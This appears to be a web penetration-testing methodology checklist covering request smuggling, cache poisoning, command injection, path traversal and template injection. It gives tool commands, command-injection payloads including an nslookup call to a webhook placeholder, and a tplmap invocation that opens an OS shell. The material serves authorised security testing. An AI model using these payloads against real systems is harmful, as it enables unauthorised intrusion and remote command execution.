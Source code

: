 # Methodology

## Proxies
- 🟥 __Abusing hop-by-hop headers__
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- 🟥 __Cache Poisoning/Cache Deception__
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- 🟥 __HTTP Request Smuggling__ 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- 🟥 __H2C Smuggling__
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- 🟥 __Uncovering Cloudflare__
- 🟥 __XSLT Server Side Injection__

## User input
### Reflected Values
- 🟥 __Client Side Template Injection__ (Like SSTI)
- 🟥 __Command Injection__
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- 🟥 __CRLF__
```
// Tool crlfuzz
crlfuzz -u <url>
```
- 🟥 __Dangling Markup__
- 🟥 __File Inclusion/Path Traversal__
```
// Fast Fuzzing
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
// Deep Fuzzing (recommend)
wfuzz -X GET -c -w file_inclusion_linux.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
wfuzz -X POST -c -w file_inclusion_linux.txt --hw 0 -d "foo=FUZZ" http://10.10.10.10/nav.php

// Can use Burp Active Scanner
```
- 🟥 __Open Redirect__ (Detected by 👉 Burp Scanner)
- 🟥 __Prototype Pollution to XSS__ (NodeJS)
- 🟥 __Server Side Inclusion/Edge Side Inclusion__ (Detected by 👉 Burp Scanner)
- 🟥 __Server Side Request Forgery__
- 🟥 __Server Side Template Injection__ (Detected by 👉 Burp Scanner)
```
// Tool tplmap
python2 tplmap.py -u 'http://10.10.10.10/page?name=Box*' --os-shell
```
- 🟥 __Reverse Tab Nabbing__
- 🟥 __XSLT Server Side Injection__
- 🟥 __XSS__
- 🟥 __XSSI__
- 🟥 __XS-Search__

